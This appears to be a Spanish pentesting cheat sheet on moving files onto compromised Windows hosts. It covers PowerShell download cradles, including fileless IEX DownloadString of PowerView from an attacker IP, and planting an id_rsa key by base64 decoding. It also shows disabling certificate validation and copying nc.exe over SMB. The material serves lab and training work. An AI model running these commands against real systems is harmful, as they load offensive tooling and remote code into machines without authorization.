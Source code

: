 #fileTransfer
## **Windows**
### Descargar Archivos 
#### Decodificar en base64
```powershell
[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("LS0tL...<SNIP>...LS0tLQo="))
```
Comprobar md5 del archivo
```powershell
Get-FileHash C:\Users\Public\id_rsa -Algorithm md5
```
#### Powershell - Web Downloads
##### Descargar un fichero - DownloadFile
```powershell
# Example: (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')
```
##### Método Fileless - DownloadString
Para que sea fileless (ejecutarse directamtente sin descargar en memoria), podemos añadir `IEX` delante de la instrucción de descarga ó pasarselo como pipe (`COMANDO_A_EJECUTAR | IEX`)
```powershell
IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.116:8000/powerview.ps1')
```
Esto carga directamente en memoria el módulo `PowerView` (a efectos prácticos tenemos las mismas funciones que al ejecutar `Import-Moudule PowerView.ps1`, aunque no tenemos el módulo cargado en memoria)
##### Invoke-WebRequest
Más moderno que los anteriores, permite manejar encabezados, códigos de respueta y cuerpo de la respuesta, aunque es algo más lento
```powershell
Invoke-WebRequest http://10.10.14.116:8000/PowerView.ps1 -OutFile PowerView.ps1
```
###### Bypasear errores en la Invoke-WebRequest
- Internet Explorer previene la descarga de archivos
	- **Error:** (`Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again. At line:1 char:1`): 
	- **Solución**: Añadir la flag `-UserBasicParsing`
	```powershell
	 Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing
	```
- El certificado no es de confianza. 
	- **Error**: Could not establish trust relationship for the SSL/TLS secure channel
	- **Solución**: Antes de descargar ejecutar lo siguiente: 
		```powershell
		[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
		```
#### **SMB**
#### Con copy
```powershell
copy \\192.168.220.133\share\nc.exe C:\Users\Public\nc.exe /user:<usuario> <contraseña>
```
Si el servidor está montado sin user/pass podremos acceder sin añadir `/user:<usuario> <contraseña>`
#### Montando SMB (mapeando en realidad)
```powershell
net use n: \\192.168.220.133\share /user:test test
```
